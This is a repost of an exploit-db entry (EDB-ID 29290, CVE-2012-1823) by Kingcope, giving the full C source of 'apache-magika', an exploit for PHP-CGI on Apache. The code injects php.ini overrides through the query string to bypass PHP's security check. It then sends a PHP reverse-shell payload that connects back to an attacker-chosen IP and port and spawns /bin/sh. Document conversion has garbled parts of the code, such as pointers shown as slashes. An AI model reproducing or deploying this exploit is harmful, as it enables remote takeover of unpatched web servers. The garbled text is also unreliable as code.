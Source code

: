 A repost of <{{page.source}}>.

#+BEGIN_QUOTE
  * Apache / PHP 5.x Remote Code Execution Exploit
    :PROPERTIES:
    :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit
    :END:
#+END_QUOTE

--------------

#+BEGIN_QUOTE

  - EDB-ID: 29290
  - CVE:
    [[http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1823][2012-1823]]
  - OSVDB-ID: N/A
  - Author: Kingcope
  - Published: 2013-10-29
  - Verified: [[http://www.exploit-db.com/images/cancel.png]]\\
  - Exploit Code:
    [[/download/29290][[[http://www.exploit-db.com/images/46.png]]]]
  - Vulnerable App: N/A
#+END_QUOTE

--------------

#+BEGIN_QUOTE
  ** Rating
     :PROPERTIES:
     :CUSTOM_ID: rating
     :END:

  Overall: (0.0)
#+END_QUOTE

**** This is a code execution bug in the combination of Apache and PHP.
     :PROPERTIES:
     :CUSTOM_ID: this-is-a-code-execution-bug-in-the-combination-of-apache-and-php.
     :END:

#+BEGIN_QUOTE
  {% highlight c %} /* Apache Magica by Kingcope // // gcc
  apache-magika.c -o apache-magika -lssl // // This is a code execution
  bug in the combination of Apache and PHP. On Debian and Ubuntu the
  vulnerability is present in the default install of the php5-cgi
  package. When the php5-cgi package is installed on Debian and Ubuntu
  or php-cgi is installed manually the php-cgi binary is accessible
  under /cgi-bin/php5 and /cgi-bin/php. The vulnerability makes it
  possible to execute the binary because this binary has a security
  check enabled when installed with Apache http server and this security
  check is circumvented by the exploit. When accessing the php-cgi
  binary the security check will block the request and will not execute
  the binary. In the source code file sapi/cgi/cgi\_main.c of PHP we can
  see that the security check is done when the php.ini configuration
  setting cgi.force\_redirect is set and the php.ini configuration
  setting cgi.redirect\_status\_env is set to no. This makes it possible
  to execute the binary bypassing the Security check by setting these
  two php.ini settings. Prior to this code for the Security check getopt
  is called and it is possible to set cgi.force\_redirect to zero and
  cgi.redirect\_status\_env to zero using the -d switch. If both values
  are set to zero and the request is sent to the server php-cgi gets
  fully executed and we can use the payload in the POST data field to
  execute arbitrary php and therefore we can execute programs on the
  system. apache-magika.c is an exploit that does exactly the prior
  described. It does support SSL. /* Affected and tested versions PHP
  5.3.10 PHP 5.3.8-1 PHP 5.3.6-13 PHP 5.3.3 PHP 5.2.17 PHP 5.2.11 PHP
  5.2.6-3 PHP 5.2.6+lenny16 with Suhosin-Patch Affected versions PHP
  prior to 5.3.12 PHP prior to 5.4.2 Unaffected versions PHP 4 - getopt
  parser unexploitable PHP 5.3.12 and up PHP 5.4.2 and up Unaffected
  versions are patched by CVE-2012-1823. // // . /'\rrq rk . // \ .
  .x.//fco\-|-'//cmtco\zt //6meqrg.\tq //\_\_\_\_\_\_\_\_\_\' EJPGQO
  apache-magica.c by Kingcope */

  #include <stdio.h> #include <stdlib.h> #include <unistd.h> #include
  <getopt.h> #include <sys/types.h> #include <stddef.h> #include
  <openssl/rand.h> #include <openssl/ssl.h> #include <openssl/err.h>
  #include <netdb.h> #include <sys/socket.h> #include <netinet/in.h>

  typedef struct { int sockfd; SSL /handle; SSL\_CTX /ctx; } connection;

  void usage(char *argv[]) { printf("usage: %s <--target target> <--port
  port> <--protocol http|https>"\\
  "<--reverse-ip ip> <--reverse-port port> [--force-interpreter
  interpreter]\n", argv[0]); exit(1); }

  char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"\\
  "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"\\
  "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"\\
  "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"\\
  "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"\\
  "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"\\
  "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"\\
  "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"\\
  "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"\\
  "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"\\
  "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"\\
  "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"\\
  "Host: %s\r\n"\\
  "User-Agent: Mozilla/5.0 (iPad; CPU OS 6\_0 like Mac OS X)
  AppleWebKit/536.26"\\
  "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"\\
  "Content-Type: application/x-www-form-urlencoded\r\n"\\
  "Content-Length: %d\r\n"\\
  "Connection: close\r\n\r\n%s"; char phpstr[] = "<?php\n"\\
  "set\_time\_limit(0);\n"\\
  "$ip = '%s';\n" "$port = %d;\n"\\
  "$chunk_size = 1400;\n" "$write\_a = null;\n"\\
  "$error_a = null;\n" "$shell = 'unset HISTFILE; unset HISTSIZE; uname
  -a; w; id; /bin/sh -i';\n"\\
  "$daemon = 0;\n" "$debug = 0;\n"\\
  "if (function\_exists('pcntl\_fork')) {\n"\\
  " $pid = pcntl_fork(); \n" " if ($pid == -1) {\n"\\
  " printit("ERROR: Can't fork");\n"\\
  " exit(1);\n"\\
  " }\n"\\
  " if ($pid) {\n"\\
  " exit(0);\n"\\
  " }\n"\\
  " if (posix\_setsid() == -1) {\n"\\
  " printit("Error: Can't setsid()");\n"\\
  " exit(1);\n"\\
  " }\n"\\
  "
  $daemon = 1;\n" "} else {\n" " printit(\"WARNING: Failed to daemonise.\");\n" "}\n" "chdir(\"/\");\n" "umask(0);\n" "$sock
  = fsockopen($ip, $port, $errno, $errstr, 30);\n" "if (!$sock) {\n"\\
  " printit("$errstr ($errno)");\n"\\
  " exit(1);\n"\\
  "}\n"\\
  "$descriptorspec = array(\n" " 0 => array(\"pipe\", \"r\"),\n" " 1 => array(\"pipe\", \"w\"),\n" " 2 => array(\"pipe\", \"w\")\n" ");\n" "$process
  = proc\_open($shell, $descriptorspec,
  $pipes);\n" "if (!is_resource($process)) {\n"\\
  " printit("ERROR: Can't spawn shell");\n"\\
  " exit(1);\n"\\
  "}\n"\\
  "stream\_set\_blocking($pipes[0], 0);\n" "stream_set_blocking($pipes[1],
  0);\n"\\
  "stream\_set\_blocking($pipes[2], 0);\n" "stream_set_blocking($sock,
  0);\n"\\
  "while (1) {\n"\\
  " if
  (feof($sock)) {\n" " printit(\"ERROR: Shell connection terminated\");\n" " break;\n" " }\n" " if (feof($pipes[1]))
  {\n"\\
  " printit("ERROR: Shell process terminated");\n"\\
  " break;\n"\\
  " }\n"\\
  " $read_a = array($sock, $pipes[1], $pipes[2]);\n"\\
  " $num_changed_sockets = stream_select($read\_a, $write\_a,
  $error_a, null);\n" " if (in_array($sock, $read_a)) {\n" " if ($debug)
  printit("SOCK READ");\n"\\
  " $input = fread($sock, $chunk_size);\n" " if ($debug) printit("SOCK:
  $input\");\n" " fwrite($pipes[0],
  $input);\n" " }\n" " if (in_array($pipes[1],
  $read_a)) {\n" " if ($debug) printit("STDOUT READ");\n"\\
  " $input = fread($pipes[1], $chunk_size);\n" " if ($debug)
  printit("STDOUT: $input\");\n" " fwrite($sock,
  $input);\n" " }\n" " if (in_array($pipes[2],
  $read_a)) {\n" " if ($debug) printit("STDERR READ");\n"\\
  " $input = fread($pipes[2], $chunk_size);\n" " if ($debug)
  printit("STDERR: $input\");\n" " fwrite($sock,
  $input);\n" " }\n" "}\n" "\n" "fclose($sock);\n"\\
  "fclose($pipes[0]);\n" "fclose($pipes[1]);\n"\\
  "fclose($pipes[2]);\n" "proc_close($process);\n"\\
  "function printit ($string) {\n" " if (!$daemon) {\n"\\
  " print "$string\n";\n"\\
  " }\n"\\
  "}\n"\\
  "exit(1);\n"\\
  "?>";

  struct sockaddr\_in /gethostbyname\_(char /hostname, unsigned short
  port) { struct hostent /he; struct sockaddr\_in server, /servercopy;

  if ((he=gethostbyname(hostname)) == NULL) { printf("Hostname cannot be
  resolved\n"); exit(255); }

  servercopy = malloc(sizeof(struct sockaddr\_in)); if (!servercopy) {
  printf("malloc error (1)\n"); exit(255); } memset(&server, '\0',
  sizeof(struct sockaddr\_in)); memcpy(&server.sin\_addr,
  he->h\_addr\_list[0], he->h\_length); server.sin\_family = AF\_INET;
  server.sin\_port = htons(port); memcpy(servercopy, &server,
  sizeof(struct sockaddr\_in)); return servercopy; }

  char /sslread(connection /c) { char *rc = NULL; int received, count =
  0, count2=0; char ch;

  for(;;) { if (!rc) rc = calloc(1024, sizeof (char) + 1); else if
  (count2 % 1024 == 0) { rc = realloc(rc, (count2 + 1) * 1024 * sizeof
  (char) + 1); } received = SSL\_read(c->handle, &ch, 1); if (received
  == 1) { rc[count++] = ch; count2++; if (count2 > 1024*5) break; } else
  break; } return rc; }

  char /read\_(int sockfd) { char /rc = NULL; int received, count = 0,
  count2=0; char ch;

  for(;;) { if (!rc) rc = calloc(1024, sizeof (char) + 1); else if
  (count2 % 1024 == 0) { rc = realloc(rc, (count2 + 1) * 1024 * sizeof
  (char) + 1); } received = read(sockfd, &ch, 1); if (received == 1) {
  rc[count++] = ch; count2++; if (count2 > 1024*5) break; } else break;
  } return rc; }

  void main(int argc, char /argv[]) { char /target, /protocol,
  /targetip, /writestr, /tmpstr, /readbuf=NULL, /interpreter,
  /reverseip, /reverseportstr, /forceinterpreter=NULL; char httpsflag=0;
  unsigned short port=0, reverseport=0; struct sockaddr\_in /server; int
  sockfd; unsigned int writesize, tmpsize; unsigned int i; connection
  *sslconnection; printf("-== Apache Magika by Kingcope ==-\n"); for(;;)
  { int c; int option\_index=0; static struct option long\_options[] = {
  {"target", required\_argument, 0, 0 }, {"port", required\_argument, 0,
  0 }, {"protocol", required\_argument, 0, 0 }, {"reverse-ip",
  required\_argument, 0, 0 }, {"reverse-port", required\_argument, 0, 0
  }, {"force-interpreter", required\_argument, 0, 0 },\\
  {0, 0, 0, 0 } };

  #+BEGIN_EXAMPLE
       c = getopt_long(argc, argv, "", long_options, &option_index);
       if (c < 0)
          break;
       
       switch (c) {
       case 0:
        switch (option_index) {
         case 0:
          if (optarg) {
           target = calloc(strlen(optarg)+1, sizeof(char));
           if (!target) {
            printf("calloc error (2)\n");
            exit(255);
           }
           memcpy(target, optarg, strlen(optarg)+1);
          }
          break;
         case 1:
          if(optarg)
           port = atoi(optarg);
          break;
         case 2:
          protocol = calloc(strlen(optarg)+1, sizeof(char));
          if (!protocol) {
           printf("calloc error (3)\n");
           exit(255);
          }
          memcpy(protocol, optarg, strlen(optarg)+1);
          if (!strcmp(protocol, "https"))
           httpsflag=1;
          break;
         case 3:
          reverseip = calloc(strlen(optarg)+1, sizeof(char));
          if (!reverseip) {
           printf("calloc error (4)\n");
           exit(255);
          }
          memcpy(reverseip, optarg, strlen(optarg)+1);       
          break;
         case 4:
          reverseport = atoi(optarg);       
          reverseportstr = calloc(strlen(optarg)+1, sizeof(char));
          if (!reverseportstr) {
           printf("calloc error (5)\n");
           exit(255);
          }
          memcpy(reverseportstr, optarg, strlen(optarg)+1);        
          break;
         case 5:
          forceinterpreter = calloc(strlen(optarg)+1, sizeof(char));
          if (!forceinterpreter) {
           printf("calloc error (6)\n");
           exit(255);
          }
          memcpy(forceinterpreter, optarg, strlen(optarg)+1);       
          break;
         default:
          usage(argv);
        }
        break;
       
       default:
        usage(argv);
       }
  #+END_EXAMPLE

  }

  if ((optind < argc) || !target || !protocol || !port || !reverseip ||
  !reverseport){ usage(argv); }

  server = gethostbyname\_(target, port); if (!server) { printf("Error
  while resolving hostname. (7)\n"); exit(255); }

  char *interpreters[5]; int ninterpreters = 5; interpreters[0] =
  strdup("/cgi-bin/php"); interpreters[1] = strdup("/cgi-bin/php5");
  interpreters[2] = strdup("/cgi-bin/php-cgi"); interpreters[3] =
  strdup("/cgi-bin/php.cgi"); interpreters[4] = strdup("/cgi-bin/php4");

  for (i=0;i<ninterpreters;i++) { interpreter = interpreters[i]; if
  (forceinterpreter) { interpreter = strdup(forceinterpreter); } if
  (forceinterpreter && i) break; printf("%s\n", interpreter);

  sockfd = socket(AF\_INET, SOCK\_STREAM, 0); if (sockfd < 1) {
  printf("socket error (8)\n"); exit(255); }

  if (connect(sockfd, (void/)server, sizeof(struct sockaddr\_in)) < 0) {
  printf("connect error (9)\n"); exit(255);\\
  } if (httpsflag) { sslconnection = (connection/)
  malloc(sizeof(connection)); if (!sslconnection) { printf("malloc error
  (10)\n"); exit(255);\\
  } sslconnection->handle = NULL; sslconnection->ctx = NULL;

  #+BEGIN_EXAMPLE
      SSL_library_init();

      sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
      if (!sslconnection->ctx) {
       printf("SSL_CTX_new error (11)\n");
       exit(255);
      }

      sslconnection->handle = SSL_new(sslconnection->ctx);
      if (!sslconnection->handle) {
       printf("SSL_new error (12)\n");
       exit(255);   
      }
      if (!SSL_set_fd(sslconnection->handle, sockfd)) {
       printf("SSL_set_fd error (13)\n");
       exit(255);
      }

      if (SSL_connect(sslconnection->handle) != 1) {
       printf("SSL_connect error (14)\n");
       exit(255);       
      }
  #+END_EXAMPLE

  }

  tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr)
  + 64; tmpstr = (char*)calloc(tmpsize, sizeof(char)); snprintf(tmpstr,
  tmpsize, phpstr, reverseip, reverseport);

  writesize = strlen(target) + strlen(interpreter) + strlen(poststr) +
  strlen(tmpstr) + 64; writestr = (char*)calloc(writesize,
  sizeof(char)); snprintf(writestr, writesize, poststr, interpreter,
  target, strlen(tmpstr), tmpstr);

  if (!httpsflag) { write(sockfd, writestr, strlen(writestr)); readbuf =
  read\_(sockfd); } else { SSL\_write(sslconnection->handle, writestr,
  strlen(writestr)); readbuf = sslread(sslconnection); }

  if (readbuf) { printf("*/SERVER RESPONSE/*\n\n%s\n\n", readbuf);\\
  } else { printf("read error (15)\n"); exit(255);\\
  } } exit(1); } {% endhighlight %}
#+END_QUOTE
